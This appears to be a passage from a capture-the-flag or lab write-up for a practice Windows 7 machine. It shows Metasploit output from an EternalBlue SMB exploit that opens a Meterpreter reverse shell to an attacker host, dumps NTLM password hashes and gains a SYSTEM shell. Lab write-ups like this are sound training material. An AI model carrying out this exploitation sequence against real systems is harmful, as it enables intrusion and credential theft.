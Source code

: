 ```
[*] 192.168.208.128:445 - 0x00000010  74 65 20 37 36 30 31 20 53 65 72 76 69 63 65 20  te 7601 Service 
[*] 192.168.208.128:445 - 0x00000020  50 61 63 6b 20 31                                Pack 1          
[+] 192.168.208.128:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.208.128:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.208.128:445 - Sending all but last fragment of exploit packet
[*] 192.168.208.128:445 - Starting non-paged pool grooming
[+] 192.168.208.128:445 - Sending SMBv2 buffers
[+] 192.168.208.128:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.208.128:445 - Sending final SMBv2 buffers.
[*] 192.168.208.128:445 - Sending last fragment of exploit packet!
[*] 192.168.208.128:445 - Receiving response from exploit packet
[+] 192.168.208.128:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.208.128:445 - Sending egg to corrupted connection.
[*] 192.168.208.128:445 - Triggering free of corrupted buffer.
[*] Sending stage (200774 bytes) to 192.168.208.128
[*] Meterpreter session 1 opened (192.168.208.139:4444 -> 192.168.208.128:49157) at 2024-07-14 02:33:03 -0400
[+] 192.168.208.128:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.208.128:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.208.128:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter >
meterpreter >
```

I successfully gained a **meterpreter** session, indicating successful exploitation.

```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58f5081696f366cdc72491a2c4996bd5:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:f580a1940b1f6759fbdd9f5c482ccdbb:::
user:1000:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
meterpreter > shell
Process 868 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>hostname
hostname
WIN-845Q99OO4PP

C:\Windows\system32>

```

![image](/writeups/blue-tcm/blue_2.jpg)  

I successfully rooted this machine.  
  